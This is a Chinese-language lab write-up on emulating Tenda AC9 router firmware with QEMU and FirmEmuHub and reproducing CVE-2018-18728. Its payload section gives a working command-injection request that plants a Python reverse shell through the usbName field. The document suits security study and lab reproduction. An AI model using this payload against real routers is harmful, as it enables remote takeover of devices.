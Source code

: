 # ⽤户态固件仿真实验⼿册
---
## 1.实验目的
1. [x] 掌握⽤户态固件仿真的基本原理和技术
2. [x] 使⽤ FirmEmuHub ⼯具进⾏⽤户态固件仿真
3. [x] 复现 Tenda AC9 固件中的漏洞
---
## 2.实验环境
- 主机系统:Kali

- 硬件要求:
  - CPU:支持虚拟化技术
  - 内存:>4GB
  - 存储:≥10G空间
- 软件要求:
  - Git
  - Docker(确保能成功拉取到dockerhub上的镜像)
  - Python 3.8+
  - IDA Pro
---
## 3.实验步骤
### 第一部分:本地构建⽤户态仿真实验环境：Tenda AC9
1. **安装qemu和⽹络配置⼯具**


```bash
sudo apt-get install qemu  
sudo apt-get install qemu-user-static 
sudo apt-get install qemu-system 
apt-get install bridge-utils uml-utilities 
```

这里使用 kali 安装时，qemu 安装失败，但是 qemu-system 安装成功，后续步骤仍能够正常进行

1. **⽹络配置**

修改宿主机的网络配置文件：

```bash
sudo vim /etc/network/interfaces
```

```
auto lo 
iface lo inet loopback 

auto eth1
iface enp0s8 inet dhcp 

auto eth1
iface br0 inet dhcp 
bridge_ports eth1
bridge_maxwait 0 
```

![](./img/interface.png)

其中 eth1 为我的虚拟机对应的 hostonly 网卡


然后在在`/etc/qemu-ifup`添加如下内容：

```bash
#! /bin/sh
echo "Executing /etc/qemu/ifup"
echo "Bringing up $1 bridged mode..." 
sudo /sbin/ifconfig $1 0.0.0.0 promisc up 
echo "Adding $1 to br0..." 
sudo /sbin/brctl addif br0 $1 
sleep 3 
```

对之前修改的文件添加权限并重置网络配置：

```bash
sudo chmod a+x /etc/qemu-ifup 
sudo systemctl restart systemd-networkd.service 
```

安装`ifupdown`然后设置网口：

```bash
sudo apt install ifupdown 
sudo ifdown br0 && sudo ifup br0 
```

![](./img/启动网口.png)

3. **开启路由器Web服务**

在下面 FirmEmuHub 的路径中找到需要的压缩包并进行解压：

```
FirmEmuHub/Benchmark/BM-2024-00012/emulation/firmware/tenda_ac9.zip
```

![](./img/squ地址.png)

进入解压后的文件目录并将对应的 qemu ⽤户态静态启动程序拷⻉到当前路径，以便在 chroot 环境下使⽤
 
```bash
sudo cp /usr/bin/qemu-arm-static qemu-arm-static 
```

![](./img/squ_cp.png)

对环境进行修复：

```bash
cp -r webroot_ro/* webroot/ 
```

![](./img/环境修复.png)

同时对 bin/httpd 赋权

```bash
ls -l bin/httpd 
chmod +x bin/httpd 
```

![](./img/赋权.png)

启动`qemu`,启动仿真环境:

```bash
sudo qemu-arm -L ./ bin/httpd 
```

会在`br0`对应的 ip 的 80 端口中打开一个管理网页

![](./img/启动.png)

![](./img/web页面1.png)


### 第⼆部分：⽤户态固件仿真环境搭建
该部分在上次实验中已经实现

1. **克隆 FirmEmuHub 仓库**

```bash
git clone https://github.com/a101e-lab/FirmEmuHub.git 
cd FirmEmuHub 
```

1. **安装依赖**

```bash
pip install -r requirements.txt 
```

### 第三部分：⼀键固件仿真

1. **启动 Tenda AC9 仿真环境**


在 FirmEmuHub 目录中执行下面的命令，启动环境:

```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00012 
```

2. **Web界⾯访问**

浏览器中访问`宿主机ip:32768`,进入 web 管理页面

![](./img/web页面.png)

### 第四部分：漏洞复现

本次复现漏洞为 CVE-2018-18728 命令注⼊漏洞，该漏洞存在于 Tenda AC9 路由器的固件中，允许攻击者执⾏任意系统命令。

漏洞原理：

命令注⼊漏洞出现在 httpd 中的代码，但程序通过POST请求传⼊的参数中的 action 参数符合条件时，usbName 参数会被直接传⼊ doSystemCmd() 中执⾏，因此可能造成任意代码执⾏



1. **准备Payload**


根据漏洞原理可以构建如下的 payload ：

```python
password=111111&premitEn=0&internetPort=21&action=del&usbName=;
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.33.107",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
&guestpwd=guest&guestuser=guest&guestaccess=r&fileCode=UTF-8 
```

2. **使⽤⼯具发送请求**

使用 yakit 工具构建 POST 请求，将上述 payload 作为请求体发送,同时在宿主机上开启一个 8888 端口的监听：

![](./img/漏洞利用成功.png)

可以发现成功反弹 shell ，在宿主机的终端中成功连接了容器的 shell

3. **验证漏洞利⽤结果**

![](./img/反弹shell.png)

### 第五部分：漏洞逆向分析

首先找到httpd所在的位置：

![](./img/找到httpd.png)

将其传输到宿主机后使用宿主机的 IDA 进行逆向返汇编，根据漏洞报告中提及的函数名称查找具体的漏洞函数：

![](./img/使用ida打开.png)

定位之后进行分析,发现当传入的 action 参数符合条件时，usbName 参数会被直接传⼊ doSystemCmd() 中执⾏

![](./img/漏洞出处.png)

找到其中执行系统命令的那个函数，其读取了我们注入的命令，并在系统中执行了我们的命令（**doSystemCmd()**）

![](./img/漏洞出处2.png)

---
## 遇到的问题与解决方法

- 第一步中 kali 的 `apt` 无法安装其中的 qemu 软件包，更新 `apt` 和换源都没有成功，但是其他的几个安装成功，并没有影响正常的使用，依旧能够正常启动仿真环境打开web网页端

- 在使用 docker 进行漏洞利用时有没有回收之前本地仿真导致的网络配置，使得hostonly网卡的 ip 丢失，连不上 `ssh`，外部 `ping` 虚拟机 hostonly ip 也失败。通过删除之前配置的 interface 的网卡配置并重启网络或重启虚拟机后，网络配置恢复正常。


